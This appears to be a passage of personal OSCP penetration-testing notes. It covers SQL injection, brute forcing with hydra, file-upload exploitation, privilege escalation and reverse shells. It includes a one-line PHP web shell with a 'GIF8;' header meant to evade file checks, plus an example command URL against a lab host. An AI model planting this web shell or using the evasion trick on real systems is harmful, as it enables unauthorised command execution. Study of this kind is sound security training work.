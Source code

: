 2. SQLi 
  + look at my _sqli notes_ in the `web/howto_notes`

2. Brute Force
  + **BEWARE YOU MAY END UP LOCKING YOURSELF OUT**
   - service may ban your IP 
   - Look at _Getting Around IP Bans_ section in
     `oscp_playbook_notes/oscp_8_tips_N_tricks.md`
   
  + `hydra` can be used to _brute force_
   - Look at _Brute Force_ section in
     `oscp_playbook_notes/oscp_5_exploit_web.md`

- - - - - - - - - - - - - - - - - - - - - - - - - - -

**File Upload**

1. First try _uploading a test file_ that'll execute code 
  + Maybe try this out:
    ```Mabye_Try_This:cmd.php
    GIF8;
    <?php echo system($_REQUEST['mycmd']); ?>
    ```
   - Putting something like **GIF8;** at the top of the file
     can help **evade** _file checking service_


  + If I can access this file from a _broswer/url_ I can hit it with
    `?mycmd=whoami`
   - You can inject a different cmd _like on to get reverse shell_
    * See the **Reverse Shell - Getting IT 🐢** section below
   [Example Url]: 10.10.10.73/nibbleblog/private/plugins/my_image/cmd.php?mycmd=whoami

--------------------------------------------------------------
--------------------------------------------------------------

## 4) PrivEsc 🛗: Once You Have a Shell 🪜
  
1. Visit `oscp_playbook_notes/oscp_10_privilige_escalation.md`
   for _details_
  + You may need to **transport files**
   - See the `Transporting Files 📦` _section below_

2. Try to get a reverse shell 🐢

-----------------------------------------------------------------
-----------------------------------------------------------------

## 5) Reverse Shell - How to GET IT 🐢
 + You may need to **transport files**
  - See the `Transporting Files 📦` _section below_
   
   
[Reverse Shell Cheat Sheet]: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

1. Try the different reverse shells in:
  + the above cheat sheet
  + or, the _Reverse Shell_ section in **1_youtube_notes.md**


[OSCP Guide Referenced]: https://sushant747.gitbooks.io/total-oscp-guide/content/port_scanning.html